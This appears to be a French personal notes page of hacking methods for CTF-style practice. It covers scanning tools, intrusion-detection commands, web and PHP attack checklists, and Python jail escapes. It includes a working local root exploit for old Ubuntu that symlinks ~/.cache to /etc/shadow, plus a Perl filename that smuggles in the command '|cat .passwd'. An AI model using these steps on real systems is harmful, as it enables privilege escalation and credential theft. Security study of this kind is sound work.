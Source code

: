 <head>
  <meta http-equiv="content-type" content="text/html; charset=utf-8" />
  <title>Methode - hacking</title>
</head>
[index](index.html)

## Hacking machines

### Utilisation de Kali

- Installer une full pour avoir metasploit
- Les wordlists sont dans /usr/share/wordlists

### Recherche vulnerabilités

- Banner grabbing: $nc [ip] [port] : ex donne info sur serveur web.
- NeXpose (Rapid7), possibilite de sauver le report en xml pour relecture dans msf. Il existe aussi plugin "nexpose" pour msf.
- Nessus (Tenable Security). Il existe aussi plugin "nessus" pour msf.
- OpenVAS : Fork Open Source de Nessus (qui est devenu close) - Installé sur https://127.0.0.1:9392. Se paramètre via openvasmd, par exemple pour reinit le password d'admin:
    $ openvasmd --user=admin --new-password=letmein

### Détection intrusion

- who et w : utilisateurs connectés
- last : dernières connexions
- lastb : derniers echecs de connexion
- /var/log/auth.log : plus complet sur différents moyens de connexion
- history : historique des commandes de l'utilisateur
- ac (package acct) avec l'option "-dp" : temps de connexion de chaque utilisateur
- lastcomm (package acct) : dernières commandes exécutées sur le système
- netstat (-t,-u,-p,-l,-a,-n) : ports réseaux du système
- lsof : liste des ressources (files, pipes...) en cours d'utilisation...). Option -p pour filtrer sur un processus, -u pour un user
- Vérifier aussi crontab


### [Metasploit](hacking-metasploit.html)

### Exploit linux

Sur ubuntu non patche:
Aujourd'hui, une faille de sécurité assez simple à mettre en oeuvre a été révélée. Elle n'impacte que la distribution Linux Ubuntu sur les versions 9.10 et 10.04.

Celle-ci concerne donc ce problème de sécurité qui permet à n'importe quel utilisateur loggué sur la machine d'acquérir les droits du compte root (superadmin).

L'exploit se base sur une faiblesse du module pam_motd qui est intégré dans la chaine d'authentification.

Il est donc possible de simplement le retirer la pile pam via les fichiers de configuration ou de mettre à jour comme préconisé.

Je vous communique l'exploit à titre d'information:

Admettons que je sois loggué sur la machine sous l'utilisateur: franck

---

rm -rf ~/.cache

ln -s /etc/shadow ~/.cache

ssh localhost

---

Vous voila propriétaire du fichier /etc/shadow !

Ce qui vous permettra bien évidemment de récupérer l'accès root...

### Exploit windows

L'utilisation de mimikatz permet de retrouver des credentials, par exemple à partir d'un dump mémoire

## Hacking web

### Recherche de vulnerabilités
- DirBuster : projet owasp (arrêté) pour bruteforcer l'arborescence d'un site web. Remplacé par ZAP
- Owasp ZAP (Zed Attack Proxy) - Recherche de vulns sur un site web
- Wapiti, nikto...
- Pour rechercher les répertoires classiques : $dirb http://challenge01.root-me.org/realiste/ch7/ /usr/share/dirb/wordlists/common.txt

### Les attaques
- Regarder le source généré (CTRL+U sur Firefox)
- Regarder les autres fichiers chargés (y.c leur code source, notamment pour js et css)
- Lire le header de retour
- Modification du user-agent ou autres parties header
- Décoder le fonctionnement du javascript
- Tester les user/pwd triviaux. 
- Fichiers backup (~, bak, old, sav)
- Regarder si un fichier robots.txt est présent
- Fichiers autogénérés comme .pyc si site en python
- La présence d'un répertoire de livraison
- La présente du répertoire .git/ ou .svn... ou même /git
- Injection de paramètre : comme dans sqli on peut fermer les apostrophes ou braquets et rajouter d'autre code
- [XSS injection](xss.html)
- XXE : un peu comme XSS mais grace aux entités et aux dtd. A noter qu'on peut faire des XXE permettant d'envoyer le résultat avant la fin de la page.
- XSL : il est possible de faire des choses sympa si on peut modifier le xsl : connaître le moteur xsl et sa version, dans certains cas injecter des commandes, lire des documents choisis (ou en partie), voire même écrire.
- Injection sql (blind, différents moteurs, time attack, tables systèmes)
- Injection xpath (cf sql)
- LFI : upload de fichier (mime, extension, php dans fichier, null byte dans nom) + moyen executer
- S'il est possible d'uploader des fichiers compressés (ou au moins .tar) qui seront décompressés : mettre un symlink 
- Modification du cookie
- Directory indexing/traversing - Essayer de deviner les répertoires
- Fichiers/répertoire d'install
- CRLF : permet de leurrer utilisateur, ou mailer
- Utilisation de fiddler ou wireshark pour voir ce qui est vraiment échangé sur le réseau

### Les attaques PHP
- PHP : register globals (pour les var non initialisées) - vieilles versions
- [PHP wrappers](phpwrappers.html) : affiche contenu des fichiers php...
- Contournement de filtre : la commande chr() peut accepter des valeurs négatives (complément à 256)
- Contournement de filtre : un preg_replace("/^blabla/"...) peut être trompé par une chaîne commençant par un "\n..."
- Passer en argument un array (de type user[]) là où il s'attend à une valeur classique donne parfois des résultats intéressants
- Les conversions implicites sont une source de faille. Les différentes manières d'écrire des nombres (par exemple forme exponentielle 5.14e18) peut rajouter de la confusion en laissant le champ à 2 interprétations selon le contexte 

### Les attaques Perl
- On peut utiliser des pipes dans un open de perl, par exemple si on appelle un fichier "|cat .passwd"...

### Les attauqes Python
- S'il y a des imports, on peut modifier le $PYTHONPATH pour regarder d'abord dans /tmp par exemple
- Jailbreak : utiliser notamment https://docs.python.org/2/library/inspect.html. Par exemple .func_code, .co_code, .co_consts

### Javascript
- Il existe des deobfuscator online. Il existe aussi le jsfuck, du javascript valide écrit uniquement avec les 18 symboles "[]()!+,\"$.:;_{}~=."
- Il faut parfois faire des replace à la main
- Attention aux conversions implicites en chaîne ou int selon le contexte

### Les outils

1. md5sum : Pour générer la somme md5. Ex: echo bob | md5sum

- python -c "import crypt, getpass, pwd; print crypt.crypt('password', '\$6\$salt\$')"
=> pour creer /etc/shadow

- Serveur web avec netcat : while true; do nc -l -p 8080 < index.html; done 
UTILISER EN FAIT nc.traditional au lieu de nc
http://www.monip.org : 82.238.192.170



- Manipuler de l'hexa : xxd et hd

## Hacking imprimantes

Il semble que [PRET](https://github.com/RUB-NDS/PRET) PRinter Exploitation Toolkit (outils pythons) soit pas mal utilisé.


